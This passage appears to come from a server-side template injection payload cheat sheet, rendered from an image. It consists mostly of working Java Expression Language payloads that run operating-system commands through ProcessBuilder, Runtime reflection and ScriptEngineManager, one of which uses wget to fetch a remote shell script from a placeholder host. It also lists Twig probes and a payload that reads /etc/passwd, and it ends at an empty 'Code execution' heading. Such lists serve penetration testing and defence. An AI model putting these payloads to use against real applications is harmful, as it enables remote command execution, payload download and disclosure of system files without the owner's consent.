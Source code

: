     // Method using processbuilder
    ${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
    ${request.getAttribute("c").add("cmd.exe")}
    ${request.getAttribute("c").add("/k")}
    ${request.getAttribute("c").add("ping x.x.x.x")}
    ${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
    ${request.getAttribute("a")}

    // Method using Reflection & Invoke
    ${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec("calc.exe")}

    // Method using ScriptEngineManager one-liner
    ${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}

    // Method using ScriptEngineManager
    ${facesContext.getExternalContext().setResponseHeader("output","".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval(\"var x=new java.lang.ProcessBuilder;x.command(\\\"wget\\\",\\\"http://x.x.x.x/1.sh\\\");org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\"))}

[](#twig)

Twig

[](#twig---basic-injection)

Twig - Basic injection

    {{7*7}}
    {{7*'7'}} would result in 49
    {{dump(app)}}
    {{app.request.server.all|join(',')}}

[](#twig---template-format)

Twig - Template format

    $output = $twig > render (
      'Dear' . $_GET['custom_greeting'],
      array("first_name" => $user.first_name)
    );

    $output = $twig > render (
      "Dear {first_name}",
      array("first_name" => $user.first_name)
    );

[](#twig---arbitrary-file-reading)

Twig - Arbitrary File Reading

    "{{'/etc/passwd'|file_excerpt(1,30)}}"@

[](#twig---code-execution)

Twig - Code execution
